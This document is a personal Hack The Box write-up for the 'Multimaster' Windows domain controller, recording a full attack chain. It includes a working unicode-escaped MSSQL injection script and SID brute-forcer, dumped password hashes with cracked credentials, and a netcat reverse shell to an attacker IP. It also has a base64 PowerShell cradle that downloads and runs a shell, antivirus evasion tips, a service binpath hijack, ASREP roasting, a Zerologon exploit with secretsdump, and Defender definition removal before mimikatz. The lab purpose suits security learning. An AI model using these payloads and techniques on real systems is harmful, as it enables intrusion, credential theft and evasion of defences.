# Summary


## about target

tip:  10.129.95.200

hostname:  Multimaster

Difficulty:  Insane


## about attack

+ extremely hard, attack chain long. Great machine, learned lots of tech
+ mssql injection test
  * wfuzz delay param
  * wfuzz with special-chars
  * Sql injection, unicode injection
  * sqlmap tamper, unicodeescape
  * Sqli extract data via python script, class cmd usage; 
  * mssql extract, mssql injection cheatsheet
+ mssql domain user enum
  * SUSER_SID, SUSER_SNAME
  * domain sid from mssql, convert to hex string

+ Hash crack, hashcat identify the hash type, `--example-hashes`
+ visual studio 10/common7, cefdebug exploit
+ powershell reverse shell
  * nishang Invoke-PowerTcp, change the function name and delete the help msg to bypass av
  * powershell encode by base64, deal with quote things.
  * iconv utf-16LE, deal the difference on windows.

+ password in dll, strings -e l
+ Ad enum bloodhound
+ ad exploit, genericwrite on user; Server operator group
+ seBackupPrivilege exploit
+ Windows privesc, genericwrite on service reg.
+ Cve-2020-1472 exploit 


**attack note**

```bash
Multimaster  / 10.129.95.200

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: MegaCorp
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-12-23 14:36:47Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds  Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGACORP)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2022-12-23T14:38:32+00:00; +7m00s from scanner time.
| ssl-cert: Subject: commonName=MULTIMASTER.MEGACORP.LOCAL
| Not valid before: 2022-12-22T14:30:30
|_Not valid after:  2023-06-23T14:30:30
| rdp-ntlm-info:
|   Target_Name: MEGACORP
|   NetBIOS_Domain_Name: MEGACORP
|   NetBIOS_Computer_Name: MULTIMASTER
|   DNS_Domain_Name: MEGACORP.LOCAL
|   DNS_Computer_Name: MULTIMASTER.MEGACORP.LOCAL
|   DNS_Tree_Name: MEGACORP.LOCAL
|   Product_Version: 10.0.14393
|_  System_Time: 2022-12-23T14:37:56+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
49701/tcp open  unknown
49743/tcp open  msrpc         Microsoft Windows RPC

---- Interesting
-- nmap heavy, domain name
megacorp.local multimaster.megacorp.local
Windows Server 2016 Standard 14393 

-- from cme password policy
Windows Server 2016 Standard 14393 x64 (name:MULTIMASTER) (domain:MEGACORP.LOCAL

-- subdomain from dns enum
multimaster.megacorp.local. hostmaster.megacorp.local

-- domain sid from enum4linux
Domain Name: MEGACORP
Domain Sid: S-1-5-21-3167813660-1240564177-918740779

-- creds from web sqli
MEGACORP\tushikikatomo:finance1

---- Enum 

-- dns
dig any @$tip megacorp.local

-- smb share
smbclient -L $tip
smbclient -L $tip -U '' -N
smbmap -H $tip -u ''

-- ad 
crackmapexec smb $tip -u '' --pass-pol

ldapsearch -H ldap://$tip -x -s base namingcontexts
ldapsearch -H ldap://$tip -x -b "DC=megacorp,DC=local" '(Objectclass=user)' samaccountname | grep -i samaccountname

-- web
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -t 50 -u http://$tip -o gobuster.log

wfuzz -c -w /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt --hw 443 -u http://megacorp.local/api/getColleagues -d '{"name":"FUZZ"}'
 wfuzz -c -w /usr/share/seclists/Fuzzing/special-chars.txt  -u http://megacorp.local/api/getColleagues -d '{"name":"FUZZ"}' -H 'Content-Type: application/json;charset=utf-8'  -s 3 -p 127.0.0.1:8080:HTTP

locate tamper | grep sqlmap
sqlmap -r getColleages.req --level=3 --risk=1 --current-user
sqlmap -r getColleages.req --level=5 --risk=1 --tamper=charunicodeescape --delay 3 --batch --dbms=mssql --current-user

# google search: mssql injection cheatsheet

# google search: group_concat mssql; show the 2 table names in one cell.

cat domainuser.list | sort -u  > temp

# check password char count.
echo -n 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739  | wc -c

# identify hash mode
hashid 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 
hashcat --example-hashes | grep -i '\-384'

hashcat -m 17900 multimaster.hash rockyou.txt

# enum domain user via mssql
## query domain user, output binary
union SUSER_SID('MEGACORP\Administrator')

## convert to hex string, output domain  
## notice the last 8 byte, user rid:  f4 01 00 00
## reverse and print, 00 00 01 f4 
## python>>> 0xf401  --> 500
union master.dbo.fn_varbintohexstr(SUSER_SID('MEGACORP\Administrator'))

## brute force the domain user

---- Foothold
-- shell tushikikatomo
crackmapexec smb $tip -u tushikikatomo -p finance1  --shares

evil-winrm -u "MEGACORP\tushikikatomo" -p finance1 -i $tip

# use domain user to auth
smbmap -H $tip -d megacorp.local -u tushikikatomo -p finance1 -R

# evil-winrm
evil-winrm -u "MEGACORP\tushikikatomo" -p finance1 -i $tip
evil-winrm -u MEGACORP\\tushikikatomo -p finance1 -i $tip

## smbshare download
new-PsDrive 
net user z: \\tip\share

# bloodhound enum
## query find all domain admins

## query, shortest path to domain admin

## check node info , first degree group member

# local enum
## get-process  check process, code 
get-process

## port local,  port periodly ooen.
netstat -an | findstr 127

# CEFdebug, get shell.
pxc wget https://github.com/taviso/cefdebug/releases/download/v0.2/cefdebug.zip

## scan local machine
.\cef.exe

## get shell
## not work, nc detected by av
.\cef.exe --code "process.mainModule.require('child_process').exec('C:\\windows\\system32\\spool\\drivers\\color\\n.exe 10.10.14.42 9001 -e cmd')" --url ws://127.0.0.1:49900/4385feda-aac1-4c7e-8215-ad3c0a838358

## nishang shell; Delete the help msg and change function name to bypass av
## iconv utf-16LE and base64, deal with the quote things.
echo "IEX(new-object net.webclient).downloadstring('http://10.10.14.42/shell.ps1')" | iconv -t UTF-16LE | base64 -w 0

## always test your shell code, especially encoded powershell.
## check the encoded shell 
powershell -enc base64 encoded things

powershell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADQAMgAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQAKAA==

## works
.\cef.exe --code "process.mainModule.require('child_process').exec('powershell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADQAMgAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQAKAA==')" --url  ws://127.0.0.1:17521/143e873e-4592-4a72-8765-27d20b778fc0

## rlwrap nc ; check rlwrap later

-- shell cyork
# bloodhound 
## check node info
## shortest path to xxx from owned 

# local enum
## check web root, if got web shell IIS user, may impersonate
type web.config
echo test > text  

## check bin, download dll file. multimasterapi.dll
strings multimasterapi.dll -e l ## got password

crackmapexec smb $tip -u domainuser.list -p 'D3veL0pM3nT!'

-- shell sbauer
# bloodhound 
## sbauer have genericwrite to jorden

## set-AdAccountcontrol to  asreproast
Get-ADUser Jorden | Set-ADAccountControl -DoesNotRequirePreAuth $true

## impacket exploit
GetNPUsers.py 'megacorp/jorden' -request

## crack
hashcat --example-hashes | grep krb5asrep -C 20
hashcat -m 18200 multimaster-jorden.asrephash ../rockyou.txt
-- shell jorden
# winpeas enum

download C:\windows\system32\spool\drivers\color\wp-jorden.log /home/kali/lab/htb/multimaster/jorden/wp-jorden.log
download C:\windows\system32\spool\drivers\color\20221225072115_BloodHound.zip /home/kali/lab/htb/multimaster/jorden/20221225072115_BloodHound-jorden.zip

---- System
-- sc service write

# exploit service genericwrite. service usosvc
sc.exe config UsoSvc binpath="cmd.exe /c powershell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADQAMgAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQAKAA=="
sc.exe config usosvc start= auto
sc.exe qc usosvc
sc.exe start usosvc

-- seBackupPrivilege
# diskshadow scripts
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
set context persistent
begin backup
add volume C: alias cdrive
create
expose %cdrive% F:
end backup
exit

unix2dos test.txt

upload /home/kali/lab/htb/multimaster/sebackup/test.txt c:\programdata\test.txt
```

# Enum

## nmap scan


```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: MegaCorp
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-12-23 14:36:47Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds  Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGACORP)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2022-12-23T14:38:32+00:00; +7m00s from scanner time.
| ssl-cert: Subject: commonName=MULTIMASTER.MEGACORP.LOCAL
| Not valid before: 2022-12-22T14:30:30
|_Not valid after:  2023-06-23T14:30:30
| rdp-ntlm-info:
|   Target_Name: MEGACORP
|   NetBIOS_Domain_Name: MEGACORP
|   NetBIOS_Computer_Name: MULTIMASTER
|   DNS_Domain_Name: MEGACORP.LOCAL
|   DNS_Computer_Name: MULTIMASTER.MEGACORP.LOCAL
|   DNS_Tree_Name: MEGACORP.LOCAL
|   Product_Version: 10.0.14393
|_  System_Time: 2022-12-23T14:37:56+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
49701/tcp open  unknown
49743/tcp open  msrpc         Microsoft Windows RPC
```


## dns enum

got the doamin name from nmap scan. 

Enum dns, nothing found.

```bash
dig any @$tip megacorp.local
```


## smb share

nothing found.

```bash
smbclient -L $tip
smbclient -L $tip -U '' -N
smbmap -H $tip -u ''
```


## ad basic enum

not much interesting things.

```bash
crackmapexec smb $tip -u '' --pass-pol

ldapsearch -H ldap://$tip -x -s base namingcontexts
ldapsearch -H ldap://$tip -x -b "DC=megacorp,DC=local" '(Objectclass=user)' samaccountname | grep -i samaccountname
```


## web

dir scan, seems to trigger the waf things.

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -t 50 -u http://$tip -o gobuster.log
```

web page, no login(js, no req to server)

Colleague search, found nothings.

after checked the walkthrough, search with the null key, listed some users. 

> try search with single char, eg. a/b/c

got domain user list.


## sqli test

wfuzz to test sqli, after read the walkthrough.

use special-chars list.  nothing special, 404; 

> waf things, blocked.

```bash
wfuzz -c -w /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt --hw 443 -u http://megacorp.local/api/getColleagues -d '{"name":"FUZZ"}'
```


proxy to check the request, -s to delay;  specify the header `content-type`

```bash
wfuzz -c -w /usr/share/seclists/Fuzzing/special-chars.txt  -u http://megacorp.local/api/getColleagues -d '{"name":"FUZZ"}' -H 'Content-Type: application/json;charset=utf-8'  -s 3 -p 127.0.0.1:8080:HTTP
```

got something, `\`  result 500, server error.




test `\` manual via burp.

```bash
\u27 # single quote, server error

```








# Foothold

## exploit sqli

sqli exploit script.

```python
import requests
import json
import cmd

url = "http://megacorp.local/api/getColleagues"
header = {"Content-Type":"application/json;charset=utf-8"}
proxy = {"http":"127.0.0.1:8080"}
def gen_payload(query):
    payload = ""
    for char in query:
        payload = r"\u{:04x}".format(ord(char))
    return payload

def gen_sid(n):
    domain = ""

class exploit(cmd.Cmd):
    prompt = "pleaseSub> "

    def default(self, line):
        payload = gen_payload(line)
        # unicode in the data, will convert to accsi in response.
        # data = '{"name":"\u0041"}'
        # str + str, use data= in request, if dict, use json=
        data = '{"name":"' + payload + '"}'
        req = requests.post(url, data=data, headers=header, proxies=proxy)
        print(req.text)

    def do_union(self, line):
        payload = "a' union select 1,2,3," + line + ", 5-- -"
        payload = gen_payload(payload)
        data = '{"name":"' + payload + '"}'
        req = requests.post(url, data=data, headers=header)
        try:
            js = json.loads(req.text)
            print(js[0]['email'])
        except:
            print(req.text)

exploit().cmdloop()
```


Data extract

```sql
# db name
Pleasesub > union db_name()
Hub_DB

# table name
Pleasesub > union (SELECT TOP 1 name FROM Hub_DB..sysobjects WHERE xtype = 'U')
Colleagues

# table count
Pleasesub > union (SELECT count(name) FROM Hub_DB..sysobjects WHERE xtype = 'U')
2

# not work.
Pleasesub > union (SELECT BOTTOM 1 name FROM Hub_DB..sysobjects WHERE xtype = 'U')
null

# TOP to get 1 table name; no top 2
Pleasesub > union (SELECT TOP 1 name FROM Hub_DB..sysobjects WHERE xtype = 'U')
Colleagues

# google search: Group_Concat mssql
## string_agg, single quote
## * not work.
Pleasesub > union (SELECT STRING_AGG(name,",") FROM Hub_DB..sysobjects WHERE xtype = 'U')
null
Pleasesub > union (SELECT STRING_AGG(name,',') FROM Hub_DB..sysobjects WHERE xtype = 'U')
Colleagues,Logins
Pleasesub > union (SELECT STRING_AGG(*,',') FROM Logins)
null

# guess the column name; or try to extract 
Pleasesub > union (SELECT TOP 1 username FROM Logins)
sbauer
Pleasesub > union (SELECT TOP 1 email FROM Logins)
null
Pleasesub > union (SELECT TOP 1 emails FROM Logins)
null
Pleasesub > union (SELECT TOP 1 account FROM Logins)
null
Pleasesub > union (SELECT TOP 1 password FROM Logins)
9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739

# extract the username and password; only support on column
Pleasesub > union (SELECT STRING_AGG(username,password,',') FROM Logins)
null
Pleasesub > union (SELECT STRING_AGG(username,',') FROM Logins)
sbauer,okent,ckane,kpage,shayna,james,cyork,rmartin,zac,jorden,alyx,ilee,nbourne,zpowers,aldom,minatotw,egre55
Pleasesub > union (SELECT STRING_AGG(password,',') FROM Logins)
9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739,fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa,68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813,68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813,9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739,9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739,9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739,fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa,68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813,9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739,fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa,68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813,fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa,68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813,9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739,cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc,cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc
Pleasesub > union (SELECT username as Result FROM Logins)
```








enum domain user via mssql ; from ipsec video.

```sql
a' union select 1,2,3,SUSER_SNAME(domain sid),5-- -
```


python scripts

```python
import requests
import json
import cmd
import struct
import time

url = "http://megacorp.local/api/getColleagues"
header = {"Content-Type":"application/json;charset=utf-8"}
proxy = {"http":"127.0.0.1:8080"}
# querys = "a' union select 1,2,3,'helloemail',5-- -"
# dict object, use json;
# data = {"name": gen_payload(querys)}
# req = requests.post(url, json=data, headers=header, proxies=proxy)

def gen_payload(query):
    payload = ""
    for char in query:
        payload += r"\u{:04x}".format(ord(char))
    return payload

def get_sid(n):
    domain = '0x0105000000000005150000001c00d1bcd181f1492bdfc236'
    user = struct.pack('<I', int(n))  # user output: '\xf4\x01\x00\x00'
    # convert to f4010000
    user = user.hex()
    return f"{domain}{user}"

def make_request(payload):
    payload = gen_payload(payload)
    data = '{"name":"' + payload + '"}'
    req = requests.post(url, data=data, headers=header, proxies=proxy)
    return req.text


class exploit(cmd.Cmd):
    prompt = "Pleasesub > "

    def default(self, line):
        payload = gen_payload(line)
        # str, use data
        data = '{"name":"' + payload + '"}'
        req = requests.post(url, data=data, headers=header, proxies=proxy)
        print(req.text)

    def do_union(self, line):
        payload = "a' union select 1,2,3," + line + ",5-- -"
        payload = gen_payload(payload)
        data = '{"name":"' + payload + '"}'
        req = requests.post(url, data=data, headers=header, proxies=proxy)
        try:
            js = json.loads(req.text)
            print(js[0]['email'])
        except:
            print(req.text)
        #print(payload)

    def do_brute(self, line):
        start, stop = line.split(" ")
        for i in range(int(start), int(stop)):
            sid = get_sid(i)
            payload = "a' union select 1,2,3,SUSER_SNAME(" + sid + "),5-- -"
            rtext = make_request(payload)
            #print(payload)
            try:
                js = json.loads(rtext)
                if js[0]['email']:
                    print(f"sid-{i}:{js[0]['email']}")
                time.sleep(3) # sleep to avoid the waf
            except:
                time.sleep(5)

exploit().cmdloop()
```





## shell tushikikatoma

check smbshare with tushikikatoma creds, use the domain user

```bash
crackmapexec smb $tip -u tushikikatomo -p finance1  --shares

evil-winrm -u "MEGACORP\tushikikatomo" -p finance1 -i $tip

# use domain user to auth
smbmap -H $tip -d megacorp.local -u tushikikatomo -p finance1 -R
```





local enum， wpeas nothing.

found visual studio, version 10.0;  cefdebug exploit




## shell cyork

### exploit cefdebug

```bash
# CEFdebug, get shell.
pxc wget https://github.com/taviso/cefdebug/releases/download/v0.2/cefdebug.zip

## scan local machine
.\cef.exe

## get shell
## not work, nc detected by av
.\cef.exe --code "process.mainModule.require('child_process').exec('C:\\windows\\system32\\spool\\drivers\\color\\n.exe 10.10.14.42 9001 -e cmd')" --url ws://127.0.0.1:49900/4385feda-aac1-4c7e-8215-ad3c0a838358

## nishang shell; Delete the help msg and change function name to bypass av
## iconv utf-16LE and base64, deal with the quote things.
echo "IEX(new-object net.webclient).downloadstring('http://10.10.14.42/shell.ps1')" | iconv -t UTF-16LE | base64 -w 0

## always test your shell code, especially encoded powershell.
## check the encoded shell 
powershell -enc base64 encoded things

powershell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADQAMgAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQAKAA==

## works
.\cef.exe --code "process.mainModule.require('child_process').exec('powershell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADQAMgAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQAKAA==')" --url  ws://127.0.0.1:17521/143e873e-4592-4a72-8765-27d20b778fc0

## rlwrap nc ; check rlwrap later

```

 

Unknown error, revert works.



got shell.




### enum

```bash
# bloodhound 
## check node info
## shortest path to xxx from owned 

# local enum
## check web root, if got web shell IIS user, may impersonate
type web.config
echo test > text  

## check bin, download dll file. multimasterapi.dll
strings multimasterapi.dll -e l ## got password

crackmapexec smb $tip -u domainuser.list -p 'D3veL0pM3nT!'
```








## shell sbauer

Check the bloodhound result, found something.

```bash
# bloodhound 
## sbauer have genericwrite to jorden
```




exploit the genericwrite on user jorden, set Preauth to asrepoast.

```bash
evil-winrm -u MEGACORP\\sbauer -p 'D3veL0pM3nT!' -i $tip

## set-AdAccountcontrol to  asreproast
Get-ADUser Jorden | Set-ADAccountControl -DoesNotRequirePreAuth $true

## impacket exploit
GetNPUsers.py 'megacorp/jorden' -request
```

Crack the password.

```bash
hashcat --example-hashes | grep krb5asrep -C 20
hashcat -m 18200 multimaster-jorden.asrephash ../rockyou.txt
```





Check password, correct.




## shell jorden

```bash
evil-winrm -u MEGACORP\\jorden -p 'rainforest786' -i $tip
```

enum and found jorden is member of server operator group, and seBackupPrivilege enabled.





wpeas enum, jorden have generic write permission on service reg.







# Privesc-Service reg

exploit service genericwrite.

service usosvc

```bash
# exploit service genericwrite. service usosvc
sc.exe config UsoSvc binpath="cmd.exe /c powershell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADQAMgAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQAKAA=="
sc.exe config usosvc start= auto
sc.exe qc usosvc
sc.exe start usosvc
```





# beyond root


## sqlmap tamper

tamper to bypass the unicode things,  delay to deal with waf block.

it takes very long time, and no result.

```bash
locate tamper | grep sqlmap
sqlmap -r getColleages.req --level=3 --risk=1 --current-user

sqlmap -r getColleages.req --level=3 --risk=1 --tamper=charunicodeescape --delay 3 --batch --dbms=mssql --current-user
```


## nishang tcp shell

```bash
## nishang shell; Delete the help msg and change function name to bypass av
## iconv utf-16LE and base64, deal with the quote things.
echo "IEX(new-object net.webclient).downloadstring('http://10.10.14.42/shell.ps1')" | iconv -t UTF-16LE | base64 -w 0

## modify the ps file
## Delete the help msg and change function name to bypass av
Invoke-Test

## run to get shell.
powershell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADQAMgAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQAKAA==
```





## seBackup

user jorden, SeBackupPrivilege enabled.




create the diskshadow, error `COM call "(*vssObject)->InitializeForBackup" failed.`

diskshadow should run with admin or special group(backup groups)

> Membership in the local Administrators group, or equivalent, is the minimum required to run Diskshadow.
>
> [diskshadow](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow)




## CVE-2020-1472

https://github.com/dirkjanm/CVE-2020-1472


```bash
python cve-2020-1472-exploit.py multimaster $tip

secretsdump.py -just-dc -no-pass 'multimaster$'@multimaster

# same thing
secretsdump.py -just-dc -no-pass 'multimaster$@multimaster'
secretsdump.py -just-dc -no-pass multimaster\$@multimaster

# restore
## dump multimater$ history hash
secretsdump.py -just-dc -no-pass 'multimaster$@multimaster' -history -just-dc-user 'multimaster$'

python restorepassword.py megacorp.local/multimaster\$@multimaster -target-ip 10.129.187.53 -hashes "aad3b435b51404eeaad3b435b51404ee:289fcbb2f2a91035588e3f090e0a5798" 
```





restore with error.




Mimikatz restore.

Delete all defender definition via mpcmdrunto

```bash
cd /progra~1
mpcmdrun.exe -removedefinitions -all

mimikatz.exe "lsadump::setntlm /user:multimaster$ /ntlm:289fcbb2f2a91035588e3f090e0a5798" "exit"
```


## proof

```bash


```


